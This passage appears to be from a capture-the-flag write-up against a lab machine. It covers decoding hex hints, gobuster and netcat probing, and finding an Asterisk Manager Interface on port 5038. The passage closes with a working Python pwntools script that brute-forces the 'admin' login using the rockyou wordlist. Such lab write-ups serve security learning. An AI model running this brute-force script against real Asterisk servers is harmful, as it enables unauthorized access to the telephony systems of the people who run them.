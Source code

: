 The 2 hex encoded strings are :

```
Good job, user "admin" the open source framework for building communications, installed in the server.
```

```
Good job reverser, python is very cool!Good job reverser, python is very cool!Good job reverser, python is very cool!
```

Hmm not sure what to do with this, I guess we got a username `admin` ?



Running `gobuster` on the server, found nothing interesting so far.



When trying to `nc` into ports `2000` and `1720` our connection get closed after we send something. Maybe we need some magic string to activate communication ?



We did another fullscan of the server and found ports `5038` opened.

It run the `Asterisk Call Manager/5.0.2`

Looking at `https://www.voip-info.org/asterisk-manager-example-login/` we see that we can connection the interface using the following message :

```
ACTION: LOGIN
USERNAME: username
SECRET: password
EVENTS: ON
```

Let's create a small script to bruteforce passwords

```python
from pwn import remote

ip = '10.10.134.236'
port = 5038

def try_login(username, password):
    print(f"Trying {username}:{password}")
    conn = remote(ip, port, level='error')
    welcome_msg = conn.recvline(timeout=0.5)
    msg = f"ACTION: LOGIN\nUSERNAME: {username}\nSECRET: {password}\nEVENTS: ON\n\n"
    conn.send(msg)
    resp = conn.recvline(timeout=2)
    filler = conn.recvline(timeout=2)
    filler = conn.recvline(timeout=2)
    return 'Success' in resp.decode()

with open('/usr/share/wordlists/rockyou_no_unicode.txt', 'r') as f:
    all_passwords = f.readlines()


for p in all_passwords:
    if try_login('admin', p.strip()):
        print(f"FOUND VALID LOGIN ")
        print(f"admin:{p}")
        break

print("All done")
```
